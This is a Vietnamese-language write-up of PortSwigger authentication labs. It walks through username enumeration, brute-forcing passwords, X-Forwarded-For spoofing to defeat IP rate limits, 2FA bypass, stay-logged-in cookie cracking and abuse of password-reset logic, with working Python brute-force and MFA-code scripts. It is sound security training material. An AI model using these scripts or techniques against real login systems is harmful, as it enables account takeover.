

# Kiến thức cần biết:

## Burp Intruder:


## X-Forwarded-For header

- ```X-Forwarded-For``` là một HTTP request header không chuẩn (non-standard header), được dùng để ghi lại địa chỉ IP gốc của client khi request đi qua proxy hoặc load balancer.

- ```X-Forwarded-For: 123.123.123.123```

Ở đây ```123.123.123.123``` là IP gốc của client do proxy thêm vào.

- Nhiều ứng dụng dùng X-Forwarded-For để:
    • Ghi log IP gốc (audit / logging)
    • Phân biệt người dùng (IP-based)
    • Giới hạn số lần login thất bại theo IP
    • Chặn brute-force từ một IP duy nhất
⛏️ Vì vậy, nếu server tin tưởng X-Forwarded-For, bạn có thể dùng nó để:
    • Bypass rate limiting / brute-force protection
    • Giả mạo IP client để thử liên tục
    • Tấn công ẩn danh hơn (spoofed IP)

## Đa luồng trong Python:

```from concurrent.futures import ThreadPoolExecutor```
    • ```concurrent.futures```: là một module có sẵn trong Python (thuộc thư viện chuẩn – standard library) để hỗ trợ chạy đa luồng (threading) hoặc đa tiến trình (multiprocessing) một cách dễ dàng.
    • ```ThreadPoolExecutor```: là một lớp (class) nằm trong module đó, dùng để chạy nhiều hàm cùng lúc bằng các luồng (threads).

```python
with ThreadPoolExecutor(max_workers=20) as executor:
    executor.map(try_code, range(10000))
```
→ Ở đây bạn đã gọi ```ThreadPoolExecutor(...)``` và gán nó vào biến ```executor```.

```max_workers=20```: có nghĩa là chạy cùng lúc 20 luồng

```executor.map(...)```: sẽ chạy hàm ```try_code(code)``` với từng code từ 0 đến 9999, chia đều cho 20 luồng chạy song song


# Lab Authentication Vulnerabilities:

## Lab: Username enumeration via different responses

**END goal** liệt kê 1 username hợp lệ và tìm ra mật khẩu của nó sau đó đăng nhập vào acc đó.

- Do chỉ có 1 tài khoản hợp lệ trong wordlist trên nên đơn giản chỉ cần dùng ```burp intruder``` là ok.


==>Tài khoản akamai valid.

==>Brute force password.

- Chọn simple list:


## Lab: Username enumeration via subtly different responses

- END goals: liệt kê 1 username hợp lệ, brute-force password của username này sau đó đăng nhập.


- Nhập bừa 1 username và password thì nó ra dòng:

```"Invalid username or password."```

- Giờ vô Intruder xong auto các thao tác tìm username:

  - Tiện thì vào phần setting của intruder chọn Grep-extract để hiển thị ra các đoạn chứa nội dụng Invalid username or password kia:


- Ta thấy ở username này có phản hồi thiếu dấu ```.``` :


==>Tìm đc phản hồi khác biệt.
    
    
-Giờ tương tự tìm password lọc ra ```status_code``` khác biệt:


==>Vậy username:password là ```ansible:baseball```


## Lab: Username enumeration via response timing

**END goal** Liệt kê 1 username hợp lệ và brute-force password của nó sau đó đăng nhập vào account của họ

- Ta nhận thấy khi ta đăng nhập sai 4 lần thì sẽ bị trả về:


==>Ta suy đoán ở lab này đã xây dựng hình thực ngăn chặn ```brute-force``` dựa trên ```IP```

-Tuy nhiên điều này có thể dễ dành bypass bằng cách **thao túng request header**.

==>Dùng **X-Forwarded-For**(XFF)

- Vì ta phỏng đoán web này dùng XFF để ghi log để giới hạn số lần login thất bại.

==>Ta giả log


==>Thành công!

- Tiếp theo ta để ý, khi ta nhập username đúng (wiener) và nhập 1 chuỗi password ```sai``` (ngắn):


  - Có time là ```255s```.

- Nhập 1 chuỗi password siêu dài thì sao:



==>Khi password đã đúng thì server sẽ check password, phụ thuộc vào độ dài của password mà thời gian trả về của nó sẽ lâu hay nhanh.

- Giờ thử thay username thành 1 tên sai thì sao:


==>Khi username sai thì trả rất nhanh do server sẽ không check password dài ngoằng kia nữa.

==>Giờ send to intruder xong đổi attack thành kiểu ```Pitchfork``` để có thể song song đổi Địa chỉ IP của XFF và username, thấy time nào dài bất thường thì là username đó đó.


==>username: ```ai```.


==>password: 123456


## Lab: Broken brute-force protection, IP block

**END goals**: Brute-force password của carlos sau đó đăng nhập vào account của carlos.

- Đầu tiên ta sẽ xem xét cơ chế hoạt động của lab này:


-Khi ta nhập sai password hoặc username quá **3 lần** thì ở lần sai thứ 4 ta sẽ bị server yêu cầu **chờ 1 phút** để thử lại.

==>Vậy nếu ta thử 2 lần liên tiếp sai, đến lần thứ 3 đúng 

==>Server sẽ không khóa ==>Cơ chế lock theo số lần sai liên tiếp.

**Bypass Strategy**: Chèn 1 lần đăng nhập đúng sau mỗi lần brute-force thất bại để reset lại bộ đếm.

- Cách 1: Script python

```Python
import requests
import time
URL = "https://0a6900f0043215f38056b7bc006a0069.web-security-academy.net/login"
session_cookie = "JeyQVeLztCWcYKxy9XOMTlhSabnuQOX5"
session = requests.Session()
good_user = "wiener"
good_pwd = "peter"
target_user = "carlos"
with open("password.txt", "r") as f:
    passwords = [line.strip() for line in f]
    
def try_login(username, password):
    data = {
        "username": username,
        "password": password
    }
    response = session.post(URL, data=data, allow_redirects=False)
    return response.status_code == 302

count = 0
for pwd in passwords:
    print(f"[count] Trying: {target_user}:{pwd}")
    if try_login(target_user, pwd):
        print(f"[+] SUCCESS: {target_user}:{pwd}")
        break
    count += 1
    
    if count % 2 == 0:
        print("[@] Ressetting counter.......")
        try_login(good_user, good_pwd)
```


- Cách 2: Tạo lại wordlist mới với cách là cứ cách 2 mật khẩu sẽ là 1 mật khẩu đúng.

Và whitelist username mới với cách là cứ 2 username carlos sẽ là 1 username wiener.

```python
# ---- Danh sách gốc ----
with open("password.txt", "r") as f:
    passwords = [line.strip() for line in f]

# ---- Mật khẩu đúng để chèn vào ----
good_password = "peter"
good_username = "wiener"
target_username = "carlos"

# ---- Tạo danh sách mật khẩu đã chèn ----
passwords_mixed = []
for i in range(len(passwords)):
    passwords_mixed.append(passwords[i])
    # Sau mỗi 2 mật khẩu brute-force → chèn 1 mật khẩu đúng
    if (i + 1) % 2 == 0:
        passwords_mixed.append(good_password)

# ---- Tạo danh sách username tương ứng ----
usernames_mixed = []
for i in range(len(passwords_mixed)):
    # Cứ mỗi 3 dòng → dòng thứ 3 là username hợp lệ
    if (i + 1) % 3 == 0:
        usernames_mixed.append(good_username)
    else:
        usernames_mixed.append(target_username)

# ---- Kiểm tra kết quả ----
for i in range(len(passwords_mixed)):
    print(f"{usernames_mixed[i]} : {passwords_mixed[i]}")
```


## Lab: Username enumeration via account lock

**END goal** Liệt kê ra 1 username hợp lệ, brute-force password của nó sau đó đăng nhập vào account này.

- Ta nhận ra ở web này có cơ chế nếu username không hợp lệ thì dù ta có brute-force như nào đi chăng nữa nó vẫn sẽ trả về "Invalid username or password"

- Nhưng khi username hợp lệ thì ta chỉ cần đăng nhập sai 3 lần sẽ bị lock lại 1 minute 

==>Ta tạo 1 script python tìm username hợp lệ bằng cách này:

```python
import requests
url = "https://0ae000930362eff0810d25c2002f0075.web-security-academy.net/login"
cookies = {
    "session": "1YoE63fxmzOawJr7ZxVWL94Okoa8GJI0"
}
fake_pwd = ["fake_1", "fake_2", "fake_3", "fake_4"]
with open("username.txt", "r") as f:
    usernames = [line.strip() for line in f]
    
for username in usernames:
    print(f"[@] Trying username: {username}")
    locked_out = False
    
    for pwd in fake_pwd:
        data = {
            "username": username,
            "password": pwd
        }
        r = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
        
        if "You have made too many incorrect" in r.text:
            print("[+] Found valid username: {username}")
            locked_out = True
            break
        
        else:
            print("[-] {username} is not a valid username")
            
    if locked_out == True:
        break
```


-Giờ ta vào intruder để tìm password hợp lệ bằng whitelist password bài cho thôi:


## Lab: Broken brute-force protection, multiple credentials per request


**END goal** tìm ra password của carlos và đăng nhập vào account của carlos.

-Đầu tiên ta thấy web giờ đang để định dạng password và username ở dạng json:


-Thử coi xem nếu password ở định dạng

```json
"password": [
    "test1",
    "test2",
    "test3"
]
```

Có bị trả về lỗi gì không:


==>Không bị lỗi

==>Chiến lược giờ đây là chuyển định dạng của tất cả whitelist pwd thành dạng ```"...", "..."``` rồi paste vào.


-Sau đó copy browser của response vừa gửi đi để login thành công vào tài khoản ```carlos```


## Lab: 2FA simple bypass

**END goal** truy cập vào account của Carlos với việc bypass 2 Factors Authentication.

-Đầu tiên login vào tài khoản đã được cho trước:


-Được yêu cầu nhập mã ```verify``` để login.

-Bấm vào Email client xem như thế nào.


-Khi bấm vào button email client thì được chuyển đến 1 page khác và khi nhập username và password vào thì ta được chuyển đến page login2 

==>Ta suy đoán website không thực sự kiểm tra liệu đã hoàn thành bước nhập mã xác thực chưa

==>Ta chỉ cần đổi URL từ ```login2``` thành ```my-account``` là ```solve``` do khi ta đăng nhập bằng tài khoản mật khẩu thì ta đã vào được website rồi.


## Lab: 2FA broken logic

**END goal**  truy cập vào account của Carlos.

-Khi login to wiener:peter, ta có thể thấy gói tin ```/login2```:


-Ta suy đoán server sau khi ở lần login đầu tiên sẽ không yêu cầu password và mật khẩu được hoàn thành có giống với username ở bước 2 không nữa.

==>Thử xóa phần session đi và đổi wiener thành carlos.


==>Không có gì khác biết

==>ĐÚNG

-Giờ thử làm vậy với gói tin có mã 2FA xem:


==>Cần brute-force để lấy được mã mfa-code chính xác rồi (Do đã xác định được mã gồm 4-digit):

==>Cách viết nhanh là sử dụng đa luồng cho python:

```python
import requests
from concurrent.futures import ThreadPoolExecutor
url = "https://0aad00c0046d860780e80ddf00440077.web-security-academy.net/login2"
cookies = {
    "verify": "carlos"
}
found = False
def try_code(code):
    global found
    if found:
       return
   
    mfa_code = str(code).zfill(4)
    data = {"mfa-code" : mfa_code}
    
    response = requests.post(url, cookies=cookies, data=data, allow_redirects=False)
    
    if response.status_code == 302:
        print(f"\n[+] MFA code found: {mfa_code}")
        found = True
    else:
        print(f"[-] Tried {mfa_code}", end = '\r')
        
with ThreadPoolExecutor(max_workers=20) as executor:
    executor.map(try_code, range(10000))     
```

## Lab: 2FA bypass using a brute-force attack

**END goal** brute-force 2FA code và truy cập vào tài khoản carlos.
Biết tài khoản victim: ```carlos:montoya```.

-Khảo sát trang web:


-Khi nhập sai code 2 lần, sẽ tự động redirect về trang login:


-Xem gói tin được gửi:


==>Có csrf token.

-```CSRF token``` đảm bảo rằng form nhập mã 2FA chỉ được gửi từ trang thực sự, không thể giả mạo, mỗi lần đăng nhập lại sẽ có 1 CSRF token mới

==>Token cũ không còn hợp lệ.

==>Nếu brute-force mã 2FA mà không cập nhật token mới

==> request sẽ bị từ chối, dù mã có đúng.

==>Sử dụng macro

-Vào setting, chọn session, add new:


-Chọn 3 gói tin Get, post, get:


1. 
```GET /login```

Lấy CSRF token đăng nhập

2. 
```POST /login với username/password + token```

Đăng nhập lại khi bị đá

3. 
```GET /login2```

Truy cập form nhập mã 2FA (lấy token 2FA)

-Được trả về như sau:


-Ấn vào test macro để xem liệu các gói tin có tạo ra ```csrf``` mới không:


## Lab: Brute-forcing a stay-logged-in cookie

**END goals**: Truy cập được vào tài khoản carlos thông qua trường cookies tên là stay-logged-in cookie.

-Nếu đăng nhập không ấn vào nút stay logged in sẽ không có cookies đó.


- Nếu bấm ```stay-logged-in```:


-Giờ thử decode trường ```stay-logged-in``` từ base64:


==>Ta được 1 đoạn chữ đọc được là wiener: và nó đằng sau nhìn có vẻ như là 1 đoạn được encode nữa.

-Thử decode bằng md5:


==>Giờ sẽ vào Burp Intruder để brute-force list các password cho sẵn của lab:


## Lab: Password reset broken logic

**END goals**: reset mật khẩu của Carlos sau đó đăng nhập vào tài khoản của carlos.

- Step1: Bấm vào forgot password nhập wiener thì được hiện lên:


- Vào email client thấy có đường link được gửi về:


- Thử truy cập link đó:


+Và xem ở trong burp của link này thì thấy có 1 parameter mới là ```temp-forgot-password-token=... ```


-Sau đó ta thử nhập mật khẩu mới:


+Ta  thấy ở dưới ngoài password mới ta vừa thay đổi thì còn có 1 giá trị mới là temp-forgot-token giống với parameter ở trên đầu trang web

==>Ta suy đoán website đã so sánh 2 giá trị này để quyết định xem có thay đổi mật khẩu user không.


-Thử thay đổi giá trị của nó đi thì vẫn thấy được

==>Parameter này không thực sự liên kết với user mà chỉ là 1 giá trị ngẫu nhiên thôi

==>Thay đổi username thành carlos là lụm.


## Lab: Password brute-force via password change

**END goal** Brute-force Carlos's password in the password change functionality

-Website overview:

When login to the web by wiener:peter:


- Test the password change function:

  - When I change by correct password and the new password is match:


  - When I change  by correct password and the new password is not match:
  


  - When I change by incorrect password and the new password is match:

```Current password is incorrect```

  - When I change by correct password and the new password is not match:

```New passwords do not match```

==>Strategy to solve this lab is try to brute-force until get the message New passwords do not match, normal message is "Current password is incorrect".

Follow to picture bellow:


Send it to intruder:


- Observe to the Content length of request 86 with payload access:


==>This is carlos's password.